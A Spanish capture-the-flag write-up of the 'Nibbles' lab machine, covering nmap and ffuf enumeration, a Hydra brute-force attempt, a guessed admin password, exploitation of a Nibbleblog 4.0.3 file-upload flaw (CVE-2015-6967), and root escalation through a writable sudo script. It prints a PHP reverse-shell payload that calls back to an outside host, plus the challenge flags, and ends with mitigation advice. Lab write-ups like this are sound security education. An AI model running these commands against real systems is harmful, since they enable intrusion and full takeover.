







# Nibbles

## Resumen

Servidor web con Nibbleblog, vulnerable a subida de ficheros (CVE-2015-6967). Tras acceder al panel se sube una shell que da ejecución como `nibbler`, y un `sudo` sobre un script escribible (`monitor.sh`) permite escalar a root.

## 1. Enumeración

### 1.1 Ping

```
ping -c 1 10.129.96.84
```

```
64 bytes from 10.129.96.84: icmp_seq=1 ttl=63 time=49.5 ms
```

Con TTL 63 asumimos un sistema Linux.

### 1.2 Puertos abiertos

```
nmap -p- --open -T4 --min-rate 5000 10.129.96.84
```

```
22/tcp open  ssh
80/tcp open  http
```

Dos puertos: SSH y HTTP.

### 1.3 Enumeración de tecnologías

```
nmap -p 80,22 -sVC -T4 --min-rate 5000 10.129.96.84
```

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Apache 2.4.18 sobre Ubuntu. Con `curl -I -v http://10.129.96.84:80/` solo confirmamos la misma cabecera `Server: Apache/2.4.18 (Ubuntu)`, sin más pistas.

### 1.4 Script vuln de nmap

```
nmap -p 80,22 --script vuln -T4 --min-rate 5000 10.129.96.84
```

```
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
```

Nada aprovechable. Pasamos a fuzzear la web.

---

## 2. Fuzzing

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.96.84/FUZZ -mc 200,204,301,302,307,401,403 -e .php,.html,.txt -t 100 -ac -c
```

```
index.html              [Status: 200, Size: 93, Words: 8, Lines: 17, Duration: 53ms]
```



`index.html` solo muestra un "Hello world!":


Sin embargo, inspeccionando el código fuente aparece un comentario revelador:

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

El propio desarrollador deja una pista del directorio del CMS **Nibbleblog**. Confirmamos que corre PHP y fuzzeamos ese directorio.

### 2.1 Fuzzing sobre /nibbleblog/

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.96.84/nibbleblog/FUZZ -mc 200,204,301,302,307,401,403 -e .php,.html,.txt -t 100 -ac -c
```

```
LICENSE.txt             [Status: 200, Size: 35148, Words: 5836, Lines: 676, Duration: 59ms]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64, Duration: 57ms]
admin                   [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 51ms]
admin.php               [Status: 200, Size: 1401, Words: 79, Lines: 27, Duration: 77ms]
content                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 55ms]
feed.php                [Status: 200, Size: 302, Words: 8, Lines: 8, Duration: 64ms]
index.php               [Status: 200, Size: 2987, Words: 116, Lines: 61, Duration: 67ms]
install.php             [Status: 200, Size: 78, Words: 11, Lines: 1, Duration: 58ms]
languages               [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 56ms]
plugins                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 55ms]
sitemap.php             [Status: 200, Size: 402, Words: 33, Lines: 11, Duration: 63ms]
themes                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 63ms]
update.php              [Status: 200, Size: 1622, Words: 103, Lines: 88, Duration: 65ms]
```

`admin.php` es un panel de login:



---

## 3. Intento de fuerza bruta

Probamos fuerza bruta con Hydra y el diccionario `rockyou.txt`:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.96.84 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect"
```

Los resultados son falsos positivos: Nibbleblog tiene protección anti fuerza bruta que bloquea la IP tras varios intentos fallidos.



---

## 4. Revisión manual de la web

Nibbleblog guarda su configuración de usuarios en un XML accesible sin autenticación:

```
http://10.129.96.84/nibbleblog/content/private/users.xml
```



Confirma el usuario `admin` y el motivo del bloqueo (5 intentos fallidos = blacklist). No hay hashes expuestos en ningún directorio accesible, así que probamos como contraseña el propio nombre de la máquina (`nibbles`) — y es la contraseña correcta del panel de administración.

La versión de Nibbleblog es la **4.0.3**, vulnerable a **CVE-2015-6967** (subida arbitraria de archivos → RCE) a través del plugin "My Image".

---

## 5. Explotación

Con sesión iniciada como `admin`, el plugin **My Image** (`Plugins → My image`) permite subir cualquier archivo sin validar su extensión.

**Paso 1 — Crear el payload PHP:**

```bash
echo '<?php exec("/bin/bash -c '"'"'bash -i >& /dev/tcp/10.10.16.120/4444 0>&1'"'"'"); ?>' > shell.php
```

**Paso 2 — Subir `shell.php`** desde el formulario del plugin y guardar cambios:



**Paso 3 — Abrir un listener** (`nc -lvnp 4444`) y disparar el archivo subido:

```
curl http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php
```

**Paso 4 — Recibir la shell:**



Obtenemos ejecución de comandos como el usuario `nibbler`.

---

## 6. Post-explotación

Navegamos a `/home/nibbler/user.txt`:

```
USER FLAG -> 08cb3bb1439ad8e3b5f04ab3b1fb944d
```

En `/home/nibbler/personal/stuff/` hay un script con permisos abiertos a todo el mundo:

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```



Además, `nibbler` puede ejecutar ese script concreto como root sin contraseña (entrada específica en `sudoers`). Al ser editable por cualquiera, sobrescribimos su contenido con una shell:

```bash
echo '/bin/bash' > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

Como `monitor.sh` lo ejecuta root vía `sudo`, heredamos una shell con sus privilegios. Navegamos a `/root/root.txt`:

```
ROOT FLAG -> d9521cd9b5bc0e62ba70208666214f66
```

---

## Mitigación

Mantener Nibbleblog actualizado para cerrar la subida de ficheros. Usar credenciales robustas en el panel de administración. Revisar las reglas de `sudo` y que los scripts ejecutables como root no sean escribibles por el usuario.

## Qué he aprendido

**Qué era la máquina:** un blog personal con el CMS **Nibbleblog 4.0.3**, oculto tras una página estática, vulnerable a subida arbitraria de archivos (CVE-2015-6967) una vez dentro del panel de administración.

**Enumeración:** `nmap` → puertos 22 y 80 → `index.html` vacío, pero su código fuente revela `/nibbleblog/` → fuzzing descubre `admin.php`, `users.xml` y el resto de la estructura del CMS.

**Acceso al panel:** fuerza bruta con Hydra bloqueada por protección anti brute-force del propio Nibbleblog → `users.xml` confirma el usuario `admin` → la contraseña resulta ser el nombre de la máquina (`nibbles`), una credencial débil predecible.

**Explotación:** versión de Nibbleblog vulnerable a RCE por subida de archivos → se sube un `shell.php` vía el plugin "My Image" → se dispara con un `curl` directo a su ruta → reverse shell como `nibbler`.

**Escalada de privilegios:** `monitor.sh` en el home de `nibbler` es editable por cualquiera y ejecutable como root vía `sudo` sin contraseña → se sobrescribe con `/bin/bash` → shell como root.

**Concepto clave aprendido:** dos fallos de configuración, no solo una vulnerabilidad de código: una contraseña de administrador trivial (el nombre del host) y un script ejecutable como root con permisos de escritura abiertos a cualquier usuario. La parte "difícil" fue encontrar el CMS oculto; el resto fueron malas prácticas de configuración encadenadas.

---

**Flags:**
- `nibbler/user.txt` → `08cb3bb1439ad8e3b5f04ab3b1fb944d`
- `root.txt` → `d9521cd9b5bc0e62ba70208666214f66`
